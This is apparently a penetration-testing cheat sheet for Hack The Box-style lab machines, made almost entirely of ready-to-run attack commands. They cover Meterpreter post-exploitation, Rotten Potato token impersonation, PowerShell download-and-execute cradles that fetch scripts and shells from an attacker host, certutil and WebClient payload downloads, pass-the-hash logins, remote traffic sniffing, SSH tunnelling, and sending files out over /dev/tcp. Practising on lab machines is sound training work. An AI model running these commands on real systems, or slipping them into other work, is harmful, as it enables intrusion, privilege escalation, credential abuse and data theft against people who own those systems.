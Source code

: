 ## Meterpreter
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Get Powershell
```
load powershell
powershell_shell
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
### Rotten Potato
```
load incognito
list_tokens -u
execute -cH -f rottenpotato.exe
impersonate_token BUILTIN\Administrators
```

## Windows
### Initial
```
whoami /all
```
### Script
```
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1') | powershell -noprofile -
```

### Check permission
```
Get-ACL administrator | Fl *
```

### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```

### With NTLM hash
```
pth-winexe -U jeeves/administrator //10.10.10.63 cmd.exe
```

### smbserver.py
On attacker machine
```
sudo smbserver.py quang `pwd`
```

On victim machine
```
New-PSDrive -Name "yoyo" -PSProvider FileSystem -Root "\\10.10.14.3\quang"
cd yoyo:
```
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```
or Create ps file with
```
$client = new-object System.Net.WebClient
$client.DownloadFile("http://10.10.14.3/shell.exe","C:\users\kohsuke\shell.exe")
```

## Bash
```
sockstat -l
cat .bash_history
history
sudo -l
```

### Sniffing
```
ssh 10.10.14.3@10.10.10.119 "tcpdump -i any -U -s0 -w - 'not port 22'" | wireshark -k -i -
```

### port forward
Attacker to victim
```
ssh -L attackerport:127.0.0.1:victimport user@domain
```
Victim to attacker
```
ssh -R attackerport:127.0.0.1:victimport user@attacker
```

### Move file
```
cat file > /dev/tcp/10.10.14.3/1234
```

## Others
### LinEnum
### linuxprivchecker.py
### pspy32
Find scheduled jobs without root
### windows exploit suggester
```
python windows-exploit-suggester.py --database 2020-05-19-mssb.xls --systeminfo systeminfo.txt
```
### https://www.fuzzysecurity.com/tutorials/16.html
